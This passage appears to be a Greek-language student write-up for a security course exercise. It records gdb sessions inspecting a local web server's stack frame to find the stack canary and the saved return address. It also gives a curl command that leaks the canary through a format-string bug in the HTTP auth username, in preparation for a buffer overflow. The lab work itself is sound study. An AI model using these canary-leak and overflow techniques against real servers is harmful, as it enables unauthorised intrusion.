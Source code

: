 (gdb) set follow-fork-mode child // Ώστε ο gdb να ακολουθεί το παιδί του server το οποίο και εκτελέι τελικά την post_param
(gdb) run

Κάνουμε το εξής request στον σερβερ τωρα που τρέχει:
curl -u admin:admin 127.0.0.1:8000/check_secret.html -v -H "Content-Length:0"  -d "a"  

(gdb) x/16x $sp // Τύπωσε τα 16 επόμενα words μετά την τιμή του $sp ως raw bytes
0xffffd870:	0x5656c316	0x00000005	0x32ffd8d8	0x565573df
0xffffd880:	0x37393266	0x61373561	0x34376135	0x34393833
0xffffd890:	0x34653061	0x31303861	0x00336366	0x2bd8ea00
0xffffd8a0:	0x56558f04	0xf7fce000	0xffffd8e8	0x565561b8  // = οι αποθηκευμένοι ebx, ebp, esi και eip (Συμφωνα με την info frame)

(gdb) p &post_data // Τύπωσε την διεύθυνση της μεταβλητής post_data (του buffer μας)
$1 = (char (*)[879046754]) 0x31303861 // Η τρέχουσα διεύθυνση του buffer-στόχου μας

(gdb) info frame // Τύπωσε τις πληροφορίες του τρέχοντος stack frame 
Stack level 0, frame at 0xffffd8b0:
	eip = 0x5655681a in post_param (main.c:177); saved eip = 0x565561b8
	called by frame at 0xffffd8f0
	source language c.
	Arglist at 0xffffd8a8, args: param_name=0x565573df "secret"
	Locals at 0xffffd8a8, Previous frame's sp is 0xffffd8b0
	Saved registers:
  		ebx at 0xffffd8a0, ebp at 0xffffd8a8, esi at 0xffffd8a4, eip at 0xffffd8ac // Οι διευθύνσεις των καταχωρητών που θέλαμε

```
Στην πράξη, σταματάμε την εκτέλεση του προγράμματος όταν αυτή φτάσει στην post_param, και με την βοήθεια του gdb βλέπουμε τα περιεχόμενα της στοίβας καθώς και των καταχωρητών, ωστε να εντοπίσουμε την τιμή του canary, χρησιμοποιώντας τα (Α) και (Β) που αναφέρθηκαν παραπάνω. (Το canary πρέπει να βρίσκεται μεταξύ τοπικής μνήμης και αποθηκευμένων καταχωρητών ΚΑΙ να τελειώνει σε 00)

Από το output του παραπάνω παραδείγματος και τα (Α) και (Β), η τιμή του canary που προκύπτει είναι 0x2bd8ea00

Στην συνεχεία, χρειαζόμαστε έναν τρόπο να πάρουμε την τιμή του canary στον remote server. Αυτό, καταλήξαμε να το κάνουμε εκμεταλλευόμενοι το buffer overflow της printf() που κάναμε exploit στο ερώτημα 3. Εφόσον η τιμή του Canary παραμένει ίδια κατά την εκτέλεση μίας διεργασίας, μπορούμε να πάρουμε την τιμή του μέσω overflow στην printf (από την συνάρτηση check_auth δηλαδή) και να την "φυτέψουμε" στην θέση που μόλις βρήκαμε οτι πρέπει να βρίσκεται το canary στην μνήμη της post_param ώστε να μην γίνεται `stack smashed`. Έτσι, αρχικά βρήκαμε με την βοήθεια του gdb την τιμή του canary (όπως στο παραπάνω παράδειγμα) και γράψαμε ένα απλό script, το `curl_for_canary.sh` (βασισμένο στο `curl_for_3.sh` του ερωτήματος 3). Το script αυτό, δοθείσας της τιμής του canary, ελέγχει τις τιμές μνήμης μετά την printf() μια προς μια ώσπου να βρει την τιμή του canary. Μπορέσαμε να βρούμε πόσες θέσεις μνήμης μακριά από την printf() (και πόσα %x format specifiers) βρίσκεται η τιμή του canary. 

Αφού επιβεβαιώσαμε τοπικά ότι η μέθοδος που μόλις περιγράψαμε λειτουργεί, την εφαρμόσαμε στον απομακρυσμένο server του ερωτήματος με την ετνολή: 
`curl -v -u "%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x":password 127.0.0.1:8421`
όπου και βρήκαμε σαν τιμή του canary την `0x9ec3c600`, *που τελιώνει σε 00 όπως αναμέναμε από το (Β)*. Οπότε μπορούμε να βρίσκουμε την τιμή του canary ανα πάσα στιγμή με τον τρόπο αυτό.

2,3: **Θέση στη μνήμη του canary και της διεύθυνσης επιστροφής**

Με βάση το gdb workflow που περιγράψαμε παραπάνω, καθώς και τα (Α) και (Β) και έχοντας την παρακάτω εικόνα της μνήμης της συνάρτησης στην στοίβα, καταλήξουμε στην εξής "χαρτογράφηση" της μνήμης της post_param:
```
0xffffd870:	0x5656c316	0x00000005	0x32ffd8d8	0x565573df
0xffffd880:	0x37393266	0x61373561	0x34376135	0x34393833
0xffffd890:	0x34653061	0x31303861	0x00336366	0x2bd8ea00
0xffffd8a0:	0x56558f04	0xf7fce000	0xffffd8e8	0x565561b8
```
```